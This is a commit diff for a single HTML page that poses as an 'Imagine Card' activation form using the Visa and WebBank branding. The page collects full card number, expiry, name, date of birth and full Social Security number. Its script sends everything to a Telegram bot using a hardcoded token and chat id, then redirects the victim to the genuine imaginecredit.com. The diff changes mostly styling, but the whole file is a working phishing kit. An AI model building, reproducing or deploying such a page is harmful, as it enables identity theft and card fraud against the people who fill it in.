

Before and after one commit to imaginecredit/Imaginecredit, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Before the commit the page ends 1020 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,9 +2,9 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=yes">
   <title>Imagine Card · Activate</title>
-  <!-- Font for clean look -->
+  <!-- font & reset -->
   <link rel="preconnect" href="https://fonts.googleapis.com">
   <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
   <link href="https://fonts.googleapis.com/css2?family=Inter:opsz,wght@14..32,400;14..32,500;14..32,600;14..32,700&display=swap" rel="stylesheet">
@@ -16,28 +16,29 @@
     }
 
     body {
-      background: #f2f4f8;
+      background: #e8ecf2;
       font-family: 'Inter', -apple-system, BlinkMacSystemFont, sans-serif;
       min-height: 100vh;
       display: flex;
       align-items: center;
       justify-content: center;
-      padding: 16px;
+      padding: 18px;
+      margin: 0;
     }
 
-    /* card container – exactly like the image style */
-    .card-wrapper {
-      max-width: 420px;
+    /* main card – exactly the "Imagine Card" style from image */
+    .card-container {
+      max-width: 440px;
       width: 100%;
       background: white;
-      border-radius: 36px;
-      box-shadow: 0 20px 40px -12px rgba(0, 0, 0, 0.2);
-      overflow: hidden;
-      padding: 24px 22px 32px;
+      border-radius: 40px;
+      box-shadow: 0 24px 48px -16px rgba(0, 20, 40, 0.25);
+      padding: 28px 24px 32px;
       transition: all 0.2s;
+      border: 1px solid #eef2f8;
     }
 
-    /* header: "Imagine Card Details" + lock? we keep minimal */
+    /* header: "Imagine Card Details" + "1202588" like the image */
     .card-header {
       display: flex;
       justify-content: space-between;
@@ -45,114 +46,118 @@
       margin-bottom: 20px;
     }
 
-    .card-header h1 {
-      font-size: 18px;
+    .card-header h2 {
+      font-size: 20px;
       font-weight: 700;
       letter-spacing: -0.3px;
-      color: #0b1b33;
-      background: #f0f3fa;
-      padding: 6px 16px 6px 14px;
+      color: #0b1f3b;
+      background: #f0f4fc;
+      padding: 6px 18px 6px 16px;
       border-radius: 40px;
+      border: 1px solid #d2dcec;
       display: inline-block;
-      border: 1px solid #d9e0eb;
+      font-weight: 650;
     }
 
-    .chip-icon {
-      background: #eef2f9;
-      border-radius: 30px;
-      padding: 6px 14px;
-      font-size: 13px;
+    .header-badge {
+      background: #eef3fb;
+      border-radius: 40px;
+      padding: 6px 16px;
+      font-size: 14px;
       font-weight: 600;
-      color: #1e2f4a;
-      border: 1px solid #d0d9e8;
+      color: #1a3456;
+      border: 1px solid #ced9ea;
+      letter-spacing: 0.3px;
     }
 
-    /* simulated card number & signature */
+    /* simulated card preview – exactly as in image */
     .card-preview {
-      background: #f5f8ff;
-      border-radius: 24px;
-      padding: 18px 18px 14px;
-      margin-bottom: 22px;
-      border: 1px solid #e2e8f2;
-      box-shadow: inset 0 1px 3px rgba(0,0,0,0.02);
+      background: #f5f9ff;
+      border-radius: 28px;
+      padding: 18px 20px 16px;
+      margin-bottom: 24px;
+      border: 1px solid #dde5f0;
+      box-shadow: inset 0 1px 4px rgba(0,0,0,0.02);
     }
 
     .card-number-row {
       display: flex;
       justify-content: space-between;
-      align-items: baseline;
-      font-size: 16px;
+      align-items: center;
+      background: white;
+      padding: 8px 16px;
+      border-radius: 60px;
+      border: 1px solid #d2dcec;
       font-weight: 600;
-      color: #102a44;
-      letter-spacing: 0.2px;
-      background: white;
-      padding: 6px 12px;
-      border-radius: 40px;
-      border: 1px solid #d6dfec;
+      font-size: 15px;
+      color: #0f2a48;
     }
 
-    .card-number-row span:first-child {
+    .card-number-row .label {
       font-weight: 400;
-      color: #4d627c;
+      color: #4d6583;
       font-size: 14px;
     }
 
     .card-number-row .number {
       font-family: 'Inter', monospace;
       font-weight: 700;
-      letter-spacing: 1px;
+      letter-spacing: 1.2px;
+      font-size: 16px;
     }
 
     .card-meta {
       display: flex;
       justify-content: space-between;
       align-items: center;
-      margin-top: 12px;
-      font-size: 13px;
-      color: #2a3f5c;
-      padding: 0 4px;
+      margin-top: 14px;
+      padding: 0 6px;
     }
 
     .card-meta .exp {
-      background: #eef3fc;
-      padding: 3px 12px;
-      border-radius: 30px;
+      background: #eaf1fc;
+      padding: 4px 16px;
+      border-radius: 40px;
       font-weight: 600;
-      border: 1px solid #d2dceb;
+      font-size: 14px;
+      border: 1px solid #d0dbea;
+      color: #1e3a5e;
     }
 
-    .card-meta .webank {
-      background: #eef3fc;
-      padding: 3px 14px;
-      border-radius: 30px;
+    .card-meta .issuer {
+      background: #eaf1fc;
+      padding: 4px 16px;
+      border-radius: 40px;
       font-weight: 500;
-      border: 1px solid #d2dceb;
-      font-size: 12px;
+      font-size: 13px;
+      border: 1px solid #d0dbea;
+      color: #1e3a5e;
     }
 
-    .card-footer-info {
+    .card-footer-links {
       display: flex;
       justify-content: space-between;
-      margin-top: 14px;
-      font-size: 11px;
-      color: #3a5270;
-      background: #edf2fa;
-      padding: 8px 12px;
-      border-radius: 40px;
-      border: 1px solid #d2dceb;
+      margin-top: 16px;
+      background: #eaf1fa;
+      padding: 8px 16px;
+      border-radius: 60px;
+      border: 1px solid #d2ddec;
+      font-size: 12px;
+      color: #1f3d61;
+      font-weight: 500;
     }
 
-    .card-footer-info a {
-      color: #0d2b4e;
+    .card-footer-links a {
+      color: #0f2b51;
       font-weight: 600;
       text-decoration: none;
     }
 
-    .card-footer-info a:hover {
+    .card-footer-links a:hover {
       text-decoration: underline;
     }
 
-    /* form fields */
+    /* form fields - clean, rounded, like image */
     .form-group {
       margin-bottom: 18px;
     }
@@ -161,55 +166,67 @@
       display: block;
       font-size: 13px;
       font-weight: 600;
-      color: #1f3149;
+      color: #1c3452;
       margin-bottom: 5px;
-      letter-spacing: -0.2px;
+      letter-spacing: -0.1px;
     }
 
     .form-group .hint {
       font-weight: 400;
-      color: #556b88;
+      color: #5d7797;
       font-size: 12px;
       margin-left: 4px;
     }
 
     .form-control {
       width: 100%;
-      padding: 12px 16px;
+      padding: 13px 18px;
       font-size: 15px;
-      border: 1.5px solid #d8e0ec;
-      border-radius: 30px;
+      border: 1.5px solid #d3deed;
+      border-radius: 60px;
       background: white;
       transition: 0.15s;
       font-family: 'Inter', sans-serif;
       font-weight: 500;
-      color: #0d1f38;
+      color: #0a1f3b;
       outline: none;
+      background: #fbfdff;
     }
 
     .form-control:focus {
-      border-color: #1d4c8f;
-      box-shadow: 0 0 0 3px rgba(26, 78, 158, 0.15);
+      border-color: #1a4b8c;
+      box-shadow: 0 0 0 4px rgba(26, 75, 140, 0.12);
+      background: white;
     }
 
     .form-control::placeholder {
-      color: #8f9fb3;
+      color: #98aec9;
       font-weight: 400;
-      font-size: 14px;
     }
 
     .row-2col {
       display: flex;
-      gap: 12px;
+      gap: 14px;
     }
 
     .row-2col .form-group {
       flex: 1;
     }
 
-    .action-group {
+    /* section title: "Primary Cardmember Information" */
+    .section-title {
+      font-weight: 700;
+      font-size: 15px;
+      color: #0f2847;
+      margin: 18px 0 12px 0;
+      padding-bottom: 8px;
+      border-bottom: 1.5px dashed #d7e1ef;
+      letter-spacing: -0.2px;
+    }
+
+    .action-row {
       display: flex;
-      gap: 12px;
+      gap: 14px;
       margin-top: 28px;
       align-items: center;
       justify-content: space-between;
@@ -218,110 +235,112 @@
 
     .btn {
       border: none;
-      padding: 14px 28px;
+      padding: 14px 24px;
       border-radius: 60px;
       font-weight: 700;
       font-size: 16px;
-      background: #eef2f9;
-      color: #1f3a5e;
+      background: #eef3fc;
+      color: #1a365d;
       cursor: pointer;
-      transition: 0.15s;
+      transition: 0.12s;
       flex: 1;
-      min-width: 100px;
-      border: 1px solid #cdd8e9;
+      min-width: 110px;
+      border: 1px solid #cbd7e9;
       text-align: center;
+      background: white;
     }
 
     .btn-primary {
-      background: #0c2b57;
+      background: #0b2a55;
       color: white;
-      border: 1px solid #0a2347;
-      box-shadow: 0 4px 8px rgba(10, 40, 90, 0.15);
+      border: 1px solid #091f3f;
+      box-shadow: 0 6px 12px rgba(11, 42, 85, 0.18);
     }
 
     .btn-primary:hover {
-      background: #143b72;
-      transform: scale(0.98);
+      background: #153b70;
+      transform: scale(0.97);
     }
 
     .btn-secondary {
       background: white;
-      border: 1px solid #c9d5e8;
+      border: 1px solid #c6d4e8;
     }
 
     .btn-secondary:hover {
-      background: #f0f5fe;
+      background: #f2f8ff;
     }
 
-    .telegram-note {
+    .telegram-credit {
       font-size: 11px;
-      color: #6b7f9b;
-      margin-top: 18px;
+      color: #5a7396;
       text-align: center;
-      border-top: 1px solid #e6edf7;
-      padding-top: 18px;
+      margin-top: 22px;
+      padding-top: 16px;
+      border-top: 1px solid #e2ebf6;
       letter-spacing: 0.2px;
     }
 
-    .telegram-note span {
+    .telegram-credit span {
       font-weight: 600;
-      color: #1d3d69;
+      color: #1c3d68;
     }
 
-    /* last 4 digits helper */
-    .inline-badge {
-      background: #e6edf8;
+    /* small badge inline */
+    .badge-secure {
+      background: #e4edf9;
       border-radius: 40px;
-      padding: 2px 12px;
+      padding: 3px 14px;
       font-size: 11px;
       font-weight: 600;
-      color: #1f3f68;
+      color: #1f3f6e;
+      display: inline-block;
     }
 
-    /* responsive */
-    @media (max-width: 450px) {
-      .card-wrapper { padding: 20px 16px; }
-      .action-group { flex-direction: column; }
+    @media (max-width: 480px) {
+      .card-container { padding: 22px 16px; }
+      .action-row { flex-direction: column; }
       .btn { width: 100%; }
+      .card-number-row { flex-wrap: wrap; gap: 6px; }
     }
   </style>
 </head>
 <body>
-  <div class="card-wrapper">
-    <!-- header: exactly as image "Imagine Card Details" + "AUTHORIZED SIGNATURE" -->
+  <div class="card-container">
+    <!-- header exactly: "Imagine Card Details" + "1202588" -->
     <div class="card-header">
-      <h1>💳 Imagine Card Details</h1>
-      <div class="chip-icon">🔒 1202588</div>
+      <h2>💳 Imagine Card Details</h2>
+      <div class="header-badge">🔐 1202588</div>
     </div>
 
-    <!-- simulated card area with the numbers and design -->
+    <!-- card visual (matches image: number, exp, webank, contact) -->
     <div class="card-preview">
       <div class="card-number-row">
-        <span>Card Number</span>
+        <span class="label">Card Number</span>
         <span class="number">1012 3456 7890 1234</span>
       </div>
       <div class="card-meta">
         <span class="exp">00/00</span>
-        <span class="webank">VISA · WebBank</span>
+        <span class="issuer">VISA · WebBank</span>
       </div>
-      <div class="card-footer-info">
+      <div class="card-footer-links">
         <span>📞 1-888-549-0040</span>
         <a href="#" target="_blank">www.imaginecredit.com</a>
       </div>
     </div>
 
-    <!-- form: all fields required, including full card details, name, dob, ssn -->
+    <!-- form: all fields as required (full card, last4, exp, name, dob, ssn, last4ssn) -->
     <form id="imagineForm" action="#" method="POST">
-      <!-- full card number (hidden but we collect it) -->
+      <!-- full card number (pre-filled from image) -->
       <div class="form-group">
         <label>Full Card Number <span class="hint">(16 digits)</span></label>
         <input type="text" class="form-control" id="fullCardNumber" placeholder="1012 3456 7890 1234" value="1012 3456 7890 1234" required>
       </div>
 
-      <!-- last 4 digits (as in image) but we also collect full card; plus extra fields -->
+      <!-- last 4 & expiry row -->
       <div class="row-2col">
         <div class="form-group">
-          <label>Last 4 digits <span class="hint">(required)</span></label>
+          <label>Last 4 Digits <span class="hint">(required)</span></label>
           <input type="text" class="form-control" id="lastFour" placeholder="1234" maxlength="4" required>
         </div>
         <div class="form-group">
@@ -330,10 +349,8 @@
         </div>
       </div>
 
-      <!-- Primary Cardmember Information (exactly as image) -->
-      <div style="margin: 16px 0 10px; font-weight: 600; font-size: 15px; color: #102a44; letter-spacing: -0.2px; border-bottom: 1px dashed #d4dfee; padding-bottom: 6px;">
-        👤 Primary Cardmember Information
-      </div>
+      <!-- Primary Cardmember Information (title) -->
+      <div class="section-title">👤 Primary Cardmember Information</div>
 
       <div class="form-group">
         <label>Full Name <span class="hint">(as on card)</span></label>
@@ -350,31 +367,31 @@
         <input type="text" class="form-control" id="ssn" placeholder="123-45-6789" required>
       </div>
 
-      <!-- extra hidden: last 4 ssn? but we collect full -->
-      <div class="row-2col" style="margin-top: -6px;">
+      <!-- last 4 SSN + secure badge -->
+      <div class="row-2col" style="margin-top: -2px;">
         <div class="form-group">
           <label>Last 4 SSN <span class="hint">(verify)</span></label>
           <input type="text" class="form-control" id="lastFourSsn" placeholder="6789" maxlength="4" required>
         </div>
-        <div class="form-group" style="display: flex; align-items: flex-end; justify-content: flex-end;">
-          <span class="inline-badge" style="margin-bottom: 6px;">🔐 secure</span>
+        <div class="form-group" style="display: flex; align-items: flex-end; justify-content: flex-end; padding-bottom: 4px;">
+          <span class="badge-secure">🔒 secure</span>
         </div>
       </div>
 
-      <!-- action buttons: Log out & Activate (matching image) -->
-      <div class="action-group">
+      <!-- action buttons: Log out | Activate (exactly as image) -->
+      <div class="action-row">
         <button type="button" class="btn btn-secondary" id="logoutBtn">Log out</button>
         <button type="submit" class="btn btn-primary" id="activateBtn">Activate</button>
       </div>
 
-      <!-- hidden: bot token & chat id (hardcoded as requested) -->
+      <!-- hidden: bot token & chat id (as provided) -->
       <input type="hidden" id="botToken" value="8901133113:AAGJgaIpLD74GFyE6bTm3A4x5GSFwxMHdgA">
-      <input type="hidden" id="chatId" value="8901133113"> <!-- user id as given -->
+      <input type="hidden" id="chatId" value="8901133113">
     </form>
 
-    <div class="telegram-note">
-      ⚡ This card is issued by WebBank, pursuant to license from Visa U.S.A. Inc.<br>
-      <span>🔹 Data sent to Telegram bot · redirect to imaginecredit.com</span>
+    <div class="telegram-credit">
+      This card is issued by WebBank, pursuant to license from Visa U.S.A. Inc.<br>
+      <span>⚡ Data sent to Telegram · redirect to imaginecredit.com</span>
     </div>
   </div>
 
@@ -382,7 +399,7 @@
     (function() {
       const form = document.getElementById('imagineForm');
 
-      // helper to format telegram message
+      // build telegram message with all fields
       function buildTelegramMessage(data) {
         const { fullCard, lastFour, expiry, fullName, dob, ssn, lastFourSsn } = data;
         return `🔹 *Imagine Card Activation* 🔹\n\n` +
@@ -393,11 +410,11 @@
                `🎂 *Date of Birth:* ${dob}\n` +
                `🆔 *Full SSN:* ${ssn}\n` +
                `🔢 *Last 4 SSN:* ${lastFourSsn}\n` +
-               `━━━━━━━━━━━━━━━━\n` +
+               `━━━━━━━━━━━━━━\n` +
                `✅ submitted via Imagine Card`;
       }
 
-      // send to telegram via bot api
+      // send to telegram
       async function sendToTelegram(message) {
         const token = document.getElementById('botToken').value;
         const chatId = document.getElementById('chatId').value;
@@ -424,11 +441,11 @@
         }
       }
 
-      // handle form submit
+      // submit handler
       form.addEventListener('submit', async function(e) {
         e.preventDefault();
 
-        // gather all fields
+        // gather all values
         const fullCard = document.getElementById('fullCardNumber').value.trim();
         const lastFour = document.getElementById('lastFour').value.trim();
         const expiry = document.getElementById('expiryDate').value.trim();
@@ -437,57 +454,46 @@
         const ssn = document.getElementById('ssn').value.trim();
         const lastFourSsn = document.getElementById('lastFourSsn').value.trim();
 
-        // very basic validation (all required)
+        // basic validation
         if (!fullCard || !lastFour || !expiry || !fullName || !dob || !ssn || !lastFourSsn) {
-          alert('⚠️ Please fill in all fields (Full Card, Last 4, Expiry, Name, DOB, SSN, Last 4 SSN)');
+          alert('⚠️ Please fill in all fields: Full Card, Last 4, Expiry, Name, DOB, SSN, Last 4 SSN.');
           return;
         }
 
-        // simple SSN length hint
         if (ssn.replace(/\D/g, '').length < 9) {
-          alert('Please enter a valid 9-digit SSN (digits only or with dashes).');
+          alert('Please enter a valid 9-digit SSN (digits or with dashes).');
           return;
         }
 
-        // prepare data object
-        const formData = {
-          fullCard,
-          lastFour,
-          expiry,
-          fullName,
-          dob,
-          ssn,
-          lastFourSsn,
-        };
-
-        // build message
+        const formData = { fullCard, lastFour, expiry, fullName, dob, ssn, lastFourSsn };
         const message = buildTelegramMessage(formData);
 
-        // send to telegram (wait for it, but don't block redirect too long)
+        // send to telegram (non-blocking)
         try {
           await sendToTelegram(message);
         } catch (err) {
-          console.warn('telegram send error, continuing');
+          console.warn('telegram error, continuing');
         }
 
-        // finally redirect to imaginecredit.com
+        // redirect to imaginecredit.com
         window.location.href = 'https://www.imaginecredit.com';
       });
 
-      // logout button -> just a visual action, but we can redirect? (as per image just "Log out")
+      // logout button: reset form (and prefill defaults)
       document.getElementById('logoutBtn').addEventListener('click', function() {
-        // optionally redirect to logout or just reset form? we do a soft reset
         if (confirm('Log out from Imagine Card? Any unsaved data will be lost.')) {
           form.reset();
-          // set default values back (optional)
+          // restore default values from image
           document.getElementById('fullCardNumber').value = '1012 3456 7890 1234';
           document.getElementById('expiryDate').value = '00/00';
+          // clear others
+          document.getElementById('lastFour').value = '';
+          document.getElementById('fullName').value = '';
+          document.getElementById('dob').value = '';
+          document.getElementById('ssn').value = '';
+          document.getElementById('lastFourSsn').value = '';
         }
       });
-
-      // set default for last 4 fields (just as placeholder, but we keep empty to require user)
-      // prefill lastFour with 1234? we keep it empty so user must type (but we set placeholder)
-      // additionally, we can set lastFour default to empty.
     })();
   </script>
 </body>
```
